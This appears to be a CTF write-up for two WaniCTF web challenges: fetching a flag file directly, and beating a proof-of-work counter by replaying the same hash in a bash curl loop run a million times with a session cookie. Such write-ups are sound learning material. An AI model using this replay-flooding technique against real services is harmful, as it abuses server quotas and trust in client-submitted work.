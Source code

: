 ```python
#https://ctftime.org/writeup/21831
```

## Web Exploitatoin
#### Bad Worker

> オフラインで動くウェブアプリをつくりました。 We created a web application that works offline. https://web-bad-worker-lz56g6.wanictf.org

This one was kind of confusing. Looking into the web app, we can see that theres a route that will fetch `flag.txt`

However, when we try to interact by requesting it in the web server we get nothing! Even downloading the web app offline doesn't do anything!

However, you can just try to request the file `flag.txt` yourself, which does yield the flag.

```bash
wget https://web-bad-worker-lz56g6.wanictf.org/FLAG.txt
```

#### pow

> compute hash to get your flag
> ハッシュを計算してフラグを取ろう

Upon visiting the website, we can see that hashes are being 'computed', but we need 1,000,000 to get the flag. 

IN NO WAY ON EARTH I AM WAITING TO COMPUTE 1000000 HASHES. LET'S GET LAZY.

So the hashes computed is sent as a post request, but you can intentionally send the same hash and it counts as a hash, increasing the computed hash count.

So what we can do is repeatedly send the same hash to the server until 1000000 hashes are computed. My solve script was really messy, but it did the job.

```bash
#!/bin/bash

# Define the URL for the curl request

# Number of times to repeat the curl request
REPEAT_TIMES=1000000

# Loop to repeat curl request
for (( i=1; i<=$REPEAT_TIMES; i++ ))
do
    # Perform curl request (adjust options as needed)
    curl 'https://web-pow-lz56g6.wanictf.org/api/pow' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:127.0) Gecko/20100101 Firefox/127.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br, zstd' -H 'Referer: https://web-pow-lz56g6.wanictf.org/' -H 'Origin: https://web-pow-lz56g6.wanictf.org' -H 'Connection: keep-alive' -H 'Cookie: pow_session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzZXNzaW9uSWQiOiJjYmNlZGI1OS1iOGQ1LTRkYmMtOGYyZC1iNTAyOWY3NzI1MzUifQ.yKnE98ZeLTmQ7YRgZkRUkk2bocPV8eurrm8gTgxRg6M' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: no-cors' -H 'Sec-Fetch-Site: same-origin' -H 'TE: trailers' -H 'Content-Type: application/json' -H 'Alt-Used: web-pow-lz56g6.wanictf.org' -H 'Priority: u=4' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw '["2862152","2862152","2862152","2862152","2862152","2862152","2862152","2862152","2862152","2862152", ...]
 sleep 1
done
```
